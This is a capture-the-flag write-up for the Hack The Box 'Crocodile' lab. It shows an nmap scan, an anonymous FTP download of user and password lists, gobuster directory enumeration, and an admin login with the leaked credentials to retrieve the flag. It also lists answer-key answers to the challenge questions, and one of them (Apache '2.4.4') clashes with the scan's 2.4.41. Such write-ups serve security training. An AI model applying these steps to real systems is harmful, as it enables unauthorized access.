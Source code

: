 # Crocodile
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Crocodile
* Topic: [[PHP]] [[FTP]] [[gobuster]]
* Difficulty: Very easy
* Date: 13-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What nmap scanning switch employs the use of default scripts during a scan? 
 - **nmap**
2. What service version is found to be running on port 21? 
- **vsftpd 3.0.3**
3. What FTP code is returned to us for the "Anonymous FTP login allowed" message? 
- **230**
4. What command can we use to download the files we find on the FTP server? 
- **get**
5. What is one of the higher-privilege sounding usernames in the list we retrieved? 
- **admin**
6. What version of Apache HTTP Server is running on the target host? 
- **2.4.4**
7. What is the name of a handy web site analysis plug-in we can install in our browser? 
- **Wappalyzer**
8. What switch can we use with gobuster to specify we are looking for specific filetypes? 
- **-x**
9. What file have we found that can provide us a foothold on the target? 
- **login.php**

---
## Flag:
Nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.52.16
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 14:18 EDT
Nmap scan report for 10.129.52.16
Host is up (0.072s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.15
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds
```

We can see that ftp is hosted on port 21, also it os open and we can see two files in plain sight. We will use `ftp` to connect and `get` to download the files to our local machine

Type `exit` to gracefully close the connection afterwards.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.129.21.75
Connected to 10.129.21.75.
220 (vsFTPd 3.0.3)
Name (10.129.21.75:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||47650|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |******************************************|    33      228.55 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.44 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||47203|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |******************************************|    62      438.74 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.91 KiB/s)
ftp> exit
221 Goodbye.

┌──(kali㉿kali)-[~/Downloads]
└─$ ll
total 8
-rw-r--r-- 1 kali kali 33 Jun  8  2021 allowed.userlist
-rw-r--r-- 1 kali kali 62 Apr 20  2021 allowed.userlist.passwd
```

We got the files, let's see what they contain using `cat`.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
                     
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd

```

Some users and their passwords, let's find a place to log in.

![](./attachments/Pasted%20image%2020220413002627.png)

There are no login options anywhere on the page.

We can use `gobuster` to enumerate (bruteforce) hidden directories.

Command:

`gobuster dir --url 10.129.124.147 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html`

`--url`: Specify the url (directory) we want to enumerate.

`dir`: Enumerate directories, not DNS ex.

`--wordlist`: Use this list (list of common directory names).

`-x`: Find files in .php and .html format.

```console
┌──(kali㉿kali)-[~]
└─$ gobuster dir --url 10.129.124.147 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.124.147
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2022/04/12 18:30:03 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 58565]
/login.php            (Status: 200) [Size: 1577] 
Progress: 312 / 262995 (0.12%)
```

`/login.php` seems useful.

![](./attachments/Pasted%20image%2020220413003253.png)

Now we can try the credentials we found.

User:pass `admin:rKXM59ESxesUFHAd`

![](./attachments/Pasted%20image%2020220413003420.png)

The flag.

**Flag:** `c7110277ac44d78b6a9fff2232434d16`

---
**Tags:** [[HackTheBox]]